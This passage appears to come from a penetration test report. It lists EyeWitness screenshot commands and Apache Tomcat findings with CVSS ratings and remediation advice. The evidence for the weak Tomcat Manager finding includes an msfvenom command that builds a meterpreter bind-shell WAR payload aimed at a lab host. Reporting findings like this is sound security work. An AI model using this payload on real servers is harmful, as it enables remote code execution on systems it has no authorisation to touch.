 This is executed using this command: ` eyewitness --web -f hosts_with_ports.txt -d /home/user/inpt-report  --timeout 30`



![Screenshot_2024-09-17_07_40_49](https://github.com/user-attachments/assets/2625c56c-96b0-4b30-a7ea-f278ad438a5b)

With non-standadised ports:` eyewitness --web -f http_hosts_with_ports.txt -d /home/user/inpt-report --timeout 30 --headless --add-ports 8080,8443,8888,9443`

![Screenshot_2024-09-17_07_46_50](https://github.com/user-attachments/assets/59817030-c765-46d9-a45c-82343d2d7fd4)



#### Affected resource:
* [Reducted]
* [Reducted]
* [Reducted]

#### Recommendation
* Update Tomcat to the latest version.
* Disable the AJP connector if not used.
* Restrict AJP connections to trusted IP addresses.





---
### Weak Tomcat Authentication and Deployment

| *Current Rating:* | CVSS Score   |
|-------------------|--------------|
|  Critical        |        9.0   |

This vulnerability allows attackers to upload and execute malicious `.war` files since Tomcat Manager's credentials are weak and publicly accessible. It results in remote code execution, enabling attackers to run arbitrary code on the server.

#### Evidence

`msfvenom -p java/meterpreter/bind_tcp LHOST=10.10.10.55 LPORT=4444 -f war -o shell_bind.war`

![Screenshot_2024-09-15_19_32_46](https://github.com/user-attachments/assets/a225d706-838e-4bfe-8334-fc1f9f499036)

#### Affected Resourse
`10.10.10.55`

#### Recommendation
* Use strong, unique credentials for the Tomcat Manager.
* Limit access to the Tomcat Manager interface by IP whitelisting.
* Disable the Tomcat Manager and Host Manager applications if not needed.
* Regularly update to the latest version to address security flaws.
* Use Tomcat’s Security Manager to restrict what applications can do.
---
### Arbitrary Code Execution via Base64 Decoding
